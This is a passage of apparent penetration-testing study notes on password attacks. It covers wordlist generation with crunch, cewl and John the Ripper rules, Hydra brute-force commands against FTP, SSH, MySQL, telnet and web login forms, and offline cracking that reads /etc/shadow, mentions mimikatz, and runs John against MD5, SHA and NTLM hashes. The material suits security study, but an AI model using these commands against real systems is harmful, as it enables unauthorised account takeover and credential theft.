cat /usr/share/crunch/charset.lst ## to show available blocks 

crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o crunch2.txt ## using blocks by it's name 
```

#### Cewl Tool

it take a website as input and store every word from this website base on some customization we specify it

```bash
crewl -help 

##for example 
cewl -d 1 -m 5 --with-numbers -v -w passcewl.txt https://www.google.com
##it scan only googel.com page and minimum word length is 5  
```

#### John The Ripper

It depend on “Mangle Passwords” Technique which mean it take password list as input and make some edits on password list based on rules to get more passwords

```bash
john --wordlist=test.txt --rules=wordlist --stdout > john1.txt
john --wordlist=test.txt --rules=single --stdout > john2.txt
```

to know every rules file configuration :

```bash
nano /etc/john/john.conf 
##then we can search for rules by it's name 
#for example "singel" rules file --> "list.rules:single"  
```

adding my own rule

```bash
nano /etc/john/john.conf 
[List.Rules:rule_Name]
##writing rules here 

##creating rules dpend on documentation "https://www.openwall.com/john/doc/RULES.shtml"
##for example 
[List.Rules:rule_Name]
c^[0-9]$[0-9]$[0-9]
```

#### Kali Prebuild Password Wordlists

it is prebuild wordlists exist on kali

```bash
cd /usr/share/wordlists/
##most famous wordlist called rockyou.txt
gzip -d rockyou.txt.gz
cat rockyou.txt
```

### Online Attacks

after get users list and generating passwords list now we can attack online services that we can interact with such (SSH , FTP ,HTTP ,MYSQL ,TELNET , etc…).

achieving it using “Hydra” tool

```bash
#V -> show every try without it the tool will show only successful attemps 
#L -> take users list   | #P -> take password list  , # if L & P are small letter it mean it takes one password and one user 
#t -> number of threads per request 
#then write the ip 
#then write  type of service 
hydra -V -L users.txt -P pass.txt -t 20 192.168.1.104 ftp #default 16 thread
hydra -V -L users.txt -P pass.txt -t 10 192.168.1.104 ssh
hydra -V -L users.txt -P pass.txt -t 10 192.168.1.104 mysql
hydra -V -L users.txt -p "" -t 10 192.168.1.104 mysql ##comman case with emptey  password 
hydra -V -L users.txt -P pass.txt -t 10 192.168.1.104 telnet

##wehre tring on web form we should adding endpoint and  POST body and message when login faild 
 
hydra -V -L users.txt -P pass.txt -t 20 192.168.43.20 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" 
```

### Offline Attacks (crack hashes )

when gaining high privilege And then we can dumb hashes from victim machine .

#### Linux hashes

**we can get password hashes by**

```bash
cat /etc/shadow 
```

**common linux hash types**

* $1=md5
* $5=sha-256
* $6=sha-512

**we can determine hash type by**

```bash
hashid 'hash_it_self'
#for example 
hashid '$6$.M0YwYN9$1grnLORHHShGJ5CnNS7gjMYAwPs7sDRdeMJ7HEUeuvgKEBdJ5VGYk866IRDHQE0bM.ou0qlGQhPpCzq46emjL0'
```

#### windows hashes

we can dump hashes using “mimikatz” tool but in case we have Administrator Privilege .

**Windows Hash Types:**

**LM** : it is old hash type that have some weaknesses and it doesn’t used now

**NTLM** : the hash type that used now

**we can determine hash type by using “CrackStation” website**

#### Cracking Hashes Methods “John” Tool

* **single** : this method attempt crack password based on user information such it’s (name , directory ,etc… )
* **Wordlist** : make a comparison between input hash and file have most common passwords hashes in “/usr/share/john/password.ls” path
* **incremental** : trying every possible combination for every until it found the clear text password

**Cracking using John Tool**

```bash
+
john --list=formats
john --format=raw-MD5 hashes.txt #normal md5
john --format=md5crypt hashes.txt #linux $1 md5
john --format=sha256crypt hashes.txt #linux $5 sha-256
john --format=sha512crypt hashes.txt #linux $6 sha-512
john --format=LM hashes.txt #windows LM
john --format=NT hashes.txt #windows NT/’

john --format=md5crypt --show hashes.txt    ##--show -> to show cracked hashes from md5-

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-MD5 hashes.txt
```
